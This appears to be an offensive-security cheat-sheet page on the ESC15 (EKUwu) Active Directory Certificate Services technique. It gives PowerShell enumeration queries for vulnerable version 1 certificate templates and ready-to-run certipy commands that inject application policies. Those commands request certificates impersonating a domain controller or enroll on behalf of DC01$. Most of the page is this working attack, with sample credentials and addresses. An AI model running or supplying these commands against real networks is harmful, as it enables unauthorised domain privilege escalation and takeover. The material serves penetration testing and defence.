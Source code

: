 ```yaml
---
description: Inject Application Policies into Version 1 Certificate Templates
---
```


# ESC15 (EKUwu)

- [https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)




## Enumerate

Get enabled templates:

```powershell
PS > $enabledTemplates = Get-ADObject -LDAPFilter "(&(objectClass=pKIEnrollmentService))" -SearchBase "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,$((Get-ADRootDSE).rootDomainNamingContext)" -Properties certificateTemplates | select -ExpandProperty certificateTemplates
```

Get v1 templates with `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` that are enabled:

```powershell
PS > Get-ADObject -Filter 'objectClass -eq "pKICertificateTemplate"' -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,$((Get-ADRootDSE).rootDomainNamingContext)" -Property name,msPKI-Template-Schema-Version,msPKI-Certificate-Name-Flag | ? {$_.'msPKI-Template-Schema-Version' -eq 1 -and ($_.'msPKI-Certificate-Name-Flag' -band 0x00000001)} | ? {$enabledTemplates -contains $_.name}
```




## Exploit



### ESC15 → ESC1

Abusing **Client Authentication**:

```bash
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate --application-policies '1.3.6.1.5.5.7.3.2' -upn 'DC01$@megacorp.local' -sid <DC01_SID> -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```



### ESC15 → ESC3

Abusing **Certificate Request Agent**:

```bash
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate --application-policies '1.3.6.1.4.1.311.20.2.1' -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -pfx snovvcrash.pfx -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template User -on-behalf-of 'MEGACORP\DC01$' -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```
